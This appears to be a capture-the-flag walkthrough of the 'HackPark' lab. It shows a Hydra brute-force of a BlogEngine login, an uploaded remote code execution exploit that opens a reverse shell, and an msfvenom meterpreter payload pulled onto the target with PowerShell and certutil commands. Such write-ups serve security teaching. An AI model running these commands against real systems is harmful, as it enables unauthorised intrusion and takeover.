 We begin by brute-forcing the login page we found during our enumeration. We make use of Hydra. A bit of Googling reverse that one possible form of Hydra attack for an http-form POST request is:

```bash
hydra -l <username> -P <password list> $ip http-form-post "<path to login form>:<http post request body>:<invalid login pattern>" -V
```

For this to work, we need a few parameters:

- `<username>`: In this case, this is just admin.
- `<password list>`: We have a few choices here. We'll make use of the usual rockyou.txt password list.
- `$ip$`: This is the IP of the target machine.
- `<http post request body>`: This is the body of the HTTP post request we found using Burp. In general, we need to replace at least one of the username or password fields in the request body with `^USER^` or `^PASS^`, respectively. Since in this case we know the username, we can just use the password string.
- `<invalid login pattern>`: This is a string which Hydra will use to identify a failed login. We can test this directly on the login page and we find that "Login Failed" is the phrase returned for a failed login attempt.

Putting this together, the final command then becomes:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.0.19 http-post-form "/Account/login.aspx:__VIEWSTATE=VCLL4AD5hj4eU3c7OwZCMFSLrZgnuwNWwqU14ymrpSECMRMEss1jMVYmVb67U%2FpsBcK4tYfVcmqrQ%2B95Jw3qZzSMDHpPIKoIenuCluq6CFcmlVtKvP9qEozi293OcTTtm4qs%2Bf2KgjvhxZRnGxbLjaieg4PILs7zGesG7KaJ0cBNnJCJ&__EVENTVALIDATION=uri6bSKQN1p12IRWrOAPflhnCzioDymlveM9EI3FTCbZDuejIqx1mmjj1frSwFIxJVP67K%2BbeYtAFGpcmnK3vS7Fnnht8ZBu1RwEyFOmtErPCc0hDk71fYe4aqxdDJL%2BzggAaduPYQgoTwhO7cB9U7vuIHO7QtDBD6hYfu5TumyNHhLp&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -V
```

<center>

![e9040c88c5d9d7bd978ab69d4fcf28ca.png](/HackPark/_resources/e9040c88c5d9d7bd978ab69d4fcf28ca-1.png)

</center>

After a short while (about 1400 attempts), we obtain the password to the admin account.

<center>

![e787b6c51985dc37e38b1ac38853b00d.png](/HackPark/_resources/e787b6c51985dc37e38b1ac38853b00d-1.png)

</center>

Now that we have access to the admin account, we want to find a vulnerability which we can exploit to gain an initial foothold. Navigating to the admin page via the sidebar and then locating the about page reveals the version of BlogEngine.

<center>

![c0b94d9a6ccaf6773f8290789f22ea26.png](/HackPark/_resources/c0b94d9a6ccaf6773f8290789f22ea26-1.png)

</center>

Searching for "Blog Engine 3.3.6" on exploit DB gives us a few options; we will use [this exploit](https://www.exploit-db.com/exploits/46353) for remote code execution. Download the exploit and open the code in Mousepad. We need to change the TcpClient IP to the attacker IP. We will listen on the indicated port (in this case, I've chosen port 9999).

<center>

![24c39b9e1c067839ba50736b1bdd57ae.png](/HackPark/_resources/24c39b9e1c067839ba50736b1bdd57ae-1.png)

</center>

Start a netcat listener on the attacking machine.

<center>

![f81b1fd29f92bd75ef391547a6f8a90e.png](/HackPark/_resources/f81b1fd29f92bd75ef391547a6f8a90e-1.png)

</center>

We will run the exploit by following the instructions given in the C# file. Look for a published post using the admin dashboard and click on it to begin editing.

<center>

![2481f63928dad8cff301cb68653c3645.png](/HackPark/_resources/2481f63928dad8cff301cb68653c3645-1.png)

</center>

In the editor, click on the folder icon to open the file manager. Then rename the C# file to `PostView.ascx` and upload it.

<center>

![54df4778576ce55f5a526059f55af926.png](/HackPark/_resources/54df4778576ce55f5a526059f55af926-1.png)

</center>

We then trigger the file by navigating to `10.10.0.19/?theme=HackPark/App_Data/files`. Going back to our netcat listener, we see that we've caught a reverse shell.

<center>

![2142b8b7632e79fef82e5eec0c0c9b33.png](/HackPark/_resources/2142b8b7632e79fef82e5eec0c0c9b33-1.png)

</center>

Since our shell is unstable, we will pivot from netcat to a meterpreter session. Start by generating a reverse shell payload with msfvenom.

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9999 -f exe -o hackparkshell.exe
`

We then open a web server with `python3 -m http.server` within the directory containing the reverse shell executable. Meanwhile, in our netcat session we navigate to `C:\Windows\Temp` (since we don't seem to have write permissions elsewhere) and run the following command to download the msfvenom reverse shell payload.
```powershell
powershell -command "Invoke-WebRequest -OutFile shell.exe -Uri 10.6.30.43:8000/hackparkshell.exe"
```

We can also use the following command to download files onto a Windows machine.
```powershell
certutil.exe -urlcache -f http://10.6.30.43/hackparkshell.exe shell.exe
```

In another terminal window, we open up Metasploit to set up the reverse handler. We use  ``use exploit/multi/handler`` and we set the following options:

<center>

![e18242f0bff037e0f026b24a82b01662.png](/HackPark/_resources/e18242f0bff037e0f026b24a82b01662-1.png)

</center>

Now ``run``  to start the reverse TCP handler. Back in our netcat session, we execute the shell with `shell.exe`. This will give us our meterpreter shell.